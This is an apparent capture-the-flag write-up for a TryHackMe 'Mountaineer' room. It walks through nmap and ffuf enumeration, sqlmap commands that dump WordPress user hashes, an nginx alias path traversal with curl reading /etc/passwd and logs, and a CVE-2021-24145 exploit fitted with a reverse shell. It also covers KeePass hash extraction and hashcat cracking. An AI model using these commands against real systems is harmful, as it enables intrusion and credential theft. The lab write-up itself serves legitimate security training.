

# Enumeration

## Nmap

I first ran an Nmap scan with the command `nmap -sC -sV -v -p- MACHINE_IP`, which produced the following result:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There were 2 open ports: 22 (ssh) and 80 (http). The HTTP server was hosting the default Nginx welcome page.

## Website enumeration (wordpress)

By running the command `ffuf -u http://MACHINE_IP/FUZZ -w SecLists-master/Discovery/Web-Content/big.txt`, I discovered that WordPress was running on the website:


I also performed further enumeration on the wordpress directory: 


We can see that there is an `image` directory that is not related to wordpress. I tried to acess it and to enumerate it but found nothing.

I roamed around the website, tried to post comments on it and almost thought that a bot were running on the machine because of this message:


As I was tring to trigger an xss from the several entry points, my other scans finished and enough time had passed to convince me that no bots were on the machine. 

## WPSCAN

This is the result of the wpscan tool:


The tool discovered nothing interesting except some usernames and the wordpress version which is vulnerable. However, those vulns are not useful for this machine https://wpscan.com/wordpress/643/.


## Plugins

At this point, I was stuck. `wpscan` revealed nothing I could use. With the information gathered, I couldn't even use a single CVE. I tried to run hydra on the found usernames but it was taking too much time, and no result came out. So, I decided to take a look on the requests from the network console and found some requests with a path leading to a plugin.


The site is using a plugin called `modern-events-calendar` with the version `5.16.2`, when looking for exploit on https://www.exploit-db.com/, I discovered that the plugin were vulnerable to a sql injection.

# RCE

One of the CVEs is a remote command injection vulnerability. However, exploiting it required authentication, meaning I had to log in first.

## Sqlmap

It is possible to dump the db by running the following command

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -p time --dump`

However, the dump can take time since it is a time based sqli. To make it go faster, you can try to first dump the different tables by using `sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -p time --tables` or simply search for interesting wordpress table from https://learn.wordpress.org/tutorial/the-wordpress-database/.

### Dumped creds

`wp_user` contains the users credentials, to dump it:

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_login -p time --dump`


`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_pass -p time --dump`


### Hashes type and cracking

I saved the hashes into files and looked for their type on https://hashes.com/en/tools/hash_identifier


I put all hashes inside a single file and ran

`hashcat -a 0 -m 400 hashes rockyou.txt`

But I didn't get any result.

Trying to brute-force hashes in a ctf is usually a no-go if you care about your time, however I did everything I could think of for this machine. So I decided to cheat and look at a writeup: https://medium.com/@nginx0/mountaineer-thm-writeup-17647596498d
The one that wrote it was as stuck as me, so he decided to ask the discord server about this room. The hint he received was that the wordpress part is a rabit hole and what we should look up is the server used. 


## Nginx

Remember the nmap scan I ran ?

The server run on the http port is nginx. We can look for vulnerabilities related to it on https://hacktricks.boitatech.com.br/pentesting/pentesting-web/nginx.

### Alias misconfiguration

The first thing that comes out from hacktricks is **alias misconfiguration**. What we should try is to find a path traversal vulnerability from a specific path. The `wordpress/image` path were kind of sus, so I first tried on it:

`curl http://mountaineer.thm/wordpress/images../etc/passwd`


It worked ! Trough this, I obtained the `nginx.conf` file

`curl http://mountaineer.thm/wordpress/images../etc/nginx/nginx.conf -o nginx.conf`


In this config file, nothing interesting except the `error.log` file

`curl http://mountaineer.thm/wordpress/images../var/log/nginx/error.log -o error.log`


A subdomain ! I added `adminroundcubemail.mountaineer.thm` to my `/etc/hosts` and accessed it : 


https://github.com/roundcube/roundcubemail/tree/master

```md
# Changelog Roundcube Webmail

## Release 1.5.3

- Enigma: Fix initial synchronization of private keys
- Enigma: Fix double quoted-printable encoding of pgp-signed messages with no attachments (#8413)
- Fix various PHP8 warnings (#8392)
- Fix mail headers injection via the subject field on mail compose (#8404)
{REDACTED}
```

With this, I could conclude that the version used was 1.5.3 but I didn't found any userful CVE. From this point, brute forcing passwords was the only way. But before that, I tried to enter default creds, and guess what, `k2:k2` worked. (At this time, I hadn't made the connection, but it is possible to use this password to directly log in to ssh as k2)


It appeared this was the password for the k2 wordpress account as I had tried it.


No need to think more, I could use the exploit of CVE-2021-24145. Before using it, I decided to change the provided shell by the **php pentest monkey** reverse shell from https://www.revshells.com/.

`python3 exploit.py -T MACHINE_IP -P 80 -U "/wordpress/" -u k2 -p th3_tall3st_password_in_th3_world`


I stabilized my shell with the following commands:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export SHELL=bash
export TERM=$TERM
stty rows <r> columns <c>
```


Once the shell was stabilized, I tried to access a user directory and see if files were accessible.


Weird message. Anyway, I wanted to log as a user, so I retried these crendentials `k2:k2` and it worked.


I looked to its home directory and found that he sent a mail to `lhotse` with specific information on him. 


I also found a keepass database in the `lhotse` home directory that I transfered to my machine using `scp`. With the previous discovered information on `lhotse`, it is worth creating a custom wordlist in order to crack the db's password.

First of all, I used `keepass2john` in order to transform the db file to a crackable hash.

`/opt/john/run/keepass2john Backup.kdbx | grep -o "$keepass$.*" > backup_hash`

Which resulted in:

`$keepass$*2*60000*0*2b0923214b16de78e65375b4c780bf658cdc7908734b4a7786bbd552e712ceb3*0c9957050dae8e352fc34655fd954f929d0829aaa6499830e5892f33d3cde74c*aa993f04d0d4b3523a8fefb2fb490731*4f3ddb248453419d0f795
58d715b8162ea59235fbedbaad04b695a78ffcf3c1e*457370632868aed656df4d2d927fc84a692e0f873ee58b177b32ee4e1f1d0776`

Then I used `cupp` to create a custom wordlist. 


Finally, I was able to crack the password:

`hashcat -a 0 -m 13400 backup_hash mount.txt`




By acessing the db, I was able to retrieve the password of the user `kangchengjunga` and connect to his account. I will stop the writing of this writeup as the objective of this room is completed since this user account holds the way to access the flags. The first flag is located inside `local.txt` of his home directory and to be root, you just have to look at his `.bash_history` where you'll see him logging as root with plaintext password.